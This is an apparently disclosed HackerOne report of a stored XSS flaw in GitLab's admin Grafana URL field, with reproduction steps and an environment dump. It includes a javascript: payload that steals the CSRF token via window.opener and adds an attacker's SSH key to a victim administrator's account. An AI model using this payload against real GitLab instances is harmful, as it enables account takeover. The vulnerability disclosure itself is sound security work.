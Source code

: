 # Stored XSS for Grafana dashboard URL

## Report Details
- **Report ID**: 684268
- **URL**: https://hackerone.com/reports/684268
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-08-29T09:32:53.883Z
- **Disclosed**: 2022-07-13T15:12:56.383Z

## Reporter
- **Username**: xanbanx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hi GitLab Security Team 

### Summary

I found a stored XSS vulnerability in the admins page. The administrator can set up a Grafana dashboard. Here, the administrator can either enter a relative URL or an absolute address. However, when adding an absolute URL, the protocol is not checked allowing to add a Javascript payload. However, when clicking on the URL, the corresponding `<a>` contains the `target="_blank"` attribute, which means a new tab is opened. However, by exploiting the `window.opener` attribute, I still can access the original tab allowing me to steal for example the CSRF token.

### Steps to reproduce

Tested locally on GitLab Enterprise 12.3.0-pre 7e45734123b

1. As an administrator go to `http://example.gitlab.com/admin/application_settings/metrics_and_profiling#js-grafana-settings`
2. Enter the following payload `javascript:alert(window.opener.document.location)`
3. Within the admin sidebar open `Monitoring ->  Metrics Dashboard`

See the the Javascript being executed

### Impact

Stored Javascript code is being executed on behalf of another user's session. Although this is only visible within the admins page, it's severity is the same. A malicious administrator can attack other administrator users with that. For example, the CSRF token can be stolen allowing, i.e., to add the attacker's SSH key to the victims user account. This can be done for example using the following payload:

```
javascript:var csrf = window.opener.$('meta[name=csrf-token]').attr('content'); window.opener.$.post('/profile/keys', { 'authenticity_token': csrf, 'key[key]': 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUXhvMZ/BFqgVY4iWWv2lrs2alZHA6CoNcnZWH7gxObXGeFK89/itFbI8NrEDE291LRScBL1nuHs0xlf7uidf97uFGVMyIW8TKeaG/j5q6olr9ejiOZhiiGGkQZf1iSTV4VYN77EtG7iV62VB1ZbwnCau1xT5mlXbd8E4WzaHIxuOY8Ao8EozouaQzWt+I1xJx5rufVwItmTaX5QKV5Cuv8GhMRUb1UqujNKr22/rbWnut0pSzB1+uE4S4E1AaCNX9Byy0z65nzupk5kdj8y/qJ3pk8UBOgQtJCFEOwc42EHS3JwTeMRNRXs9bwqRJfXUomXL1LZ5Eua7UX7aQq7pf admin@foo.com', 'key[title]': 'admin@foo.com' });
```

### What is the current *bug* behavior?

The URL entered in the Grafana domain is not validated allowing arbitrary javascript being entered.

### What is the expected *correct* behavior?

The URL input field should only allow valid URLs for http(s).

### Relevant logs and/or screenshots

(Paste any relevant logs - please use code blocks (```) to format console output,
logs, and code as it's very hard to read otherwise.)

### Output of checks

#### Results of GitLab environment info

```
System information
System:         Ubuntu 18.04
Proxy:          no
Current User:   xanbanx
Using RVM:      no
Ruby Version:   2.6.3p62
Gem Version:    3.0.3
Bundler Version:1.17.2
Rake Version:   12.3.2
Redis Version:  4.0.9
Git Version:    2.23.0
Sidekiq Version:5.2.7
Go Version:     go1.12.6 linux/amd64

GitLab information
Version:        12.3.0-pre
Revision:       7e45734123b
Directory:      /home/xanbanx/gdk/gdk-ee/gitlab
DB Adapter:     PostgreSQL
DB Version:     10.10
URL:            http://localhost:3001
HTTP Clone URL: http://localhost:3001/some-group/some-project.git
SSH Clone URL:  ssh://xanbanx@localhost:2222/some-group/some-project.git
Elasticsearch:  no
Geo:            no
Using LDAP:     no
Using Omniauth: yes
Omniauth Providers: 

GitLab Shell
Version:        9.4.1
Repository storage paths:
- default:      /home/xanbanx/gdk/gdk-ee/repositories
GitLab Shell path:              /home/xanbanx/gdk/gdk-ee/gitlab-shell
Git:            /usr/bin/git

```

Best,
Xanbanx

## Impact

See above

## Attachments
No attachments
